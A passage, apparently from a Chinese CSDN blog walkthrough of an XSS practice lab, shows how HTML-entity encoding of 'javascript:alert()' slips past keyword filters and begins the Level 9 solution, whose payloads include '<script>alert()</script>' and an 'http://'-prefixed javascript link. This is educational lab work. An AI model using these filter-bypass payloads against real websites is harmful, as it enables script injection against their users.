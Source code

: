  
 <img alt="" height="323" src="https://img-blog.csdnimg.cn/faef510d740f4107af33812f1d67ee4f.png" width="1200"/>
就变成了
javascri&amp;#112;&amp;#116;:alert()

 
<hr/>
全部编码就是
&amp;#106;&amp;#97;&amp;#118;&amp;#97;&amp;#115;&amp;#99;&amp;#114;&amp;#105;&amp;#112;&amp;#116;&amp;#58;&amp;#97;&amp;#108;&amp;#101;&amp;#114;&amp;#116;&amp;#40;&amp;#41;

 <img alt="" height="540" src="https://img-blog.csdnimg.cn/d01f1c310727427daf89dca62f72b217.png" width="757"/>
 


---


---


---


---


##  Less9（编码绕过+关键字过滤+http头）

> 
<h3>特点：</h3>
参数中插入
首先被全部转换为小写，然后关键字被过滤
编码绕过
添加http头
反射性


> 
<h3>利用：</h3>
见空就插，看见有参数，插
&lt;script&gt;alert()&lt;/script&gt;
提示不合法


http://&lt;script&gt;alert()&lt;/script&gt;
添加链接后，点击无效果

 右键查看源码
关键字是被加上了下划线

 

<hr/>
尝试进行HTML编码绕过
可以选择局部字符编码，也可以全部编码绕过
http://javascript:alert()


